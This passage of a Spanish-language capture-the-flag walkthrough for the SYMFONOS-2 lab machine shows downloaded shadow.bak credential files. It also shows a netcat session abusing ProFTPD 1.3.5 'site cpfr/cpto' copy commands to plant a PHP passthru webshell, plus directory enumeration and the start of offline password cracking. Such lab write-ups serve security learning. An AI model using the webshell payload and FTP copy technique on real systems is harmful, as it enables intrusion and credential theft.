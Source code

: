 ```
getting file \shadow.bak of size 1173 as shadow.bak (572.7 KiloBytes/sec) (average 544.3 KiloBytes/sec)
```

<img src="https://github.com/El-Palomo/SYMFONOS-2/blob/main/symfonos7.jpg" with=80% />


IMPORTANTE: También intenté subir una webshell pero no se puede por los permisos.

```
root@kali:~/SYMFONOS2# nc 10.10.10.151 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.10.151]
site cpfr /proc/self/cmdline
350 File or directory exists, ready for destination name
site cpto /tmp/.<?php echo passthru($_GET['cmd']); ?>
250 Copy successful
site cpfr /tmp/.<?php echo passthru($_GET['cmd']); ?>
350 File or directory exists, ready for destination name
site cpto /var/www/html/webshell.php
550 cpto: Permission denied
```

### 3.3 Enumeración HTTP

- GOBUSTER y DIRSEARCH no arrojan información importante.

```
root@kali:~/SYMFONOS2/autorecon/10.10.10.151/scans# cat tcp_80_http_gobuster.txt 
/index.html (Status: 200) [Size: 183]
/index.html (Status: 200) [Size: 183]
```

## 4. Identificando la Vulnerabilidad y Ganar Acceso

### 4.1. Cracking OFFLINE

- Vamos aprovechar que hemos podido descargar los archivos PASSWD.BAK y SHADOW.BAK y para a crackearlos.
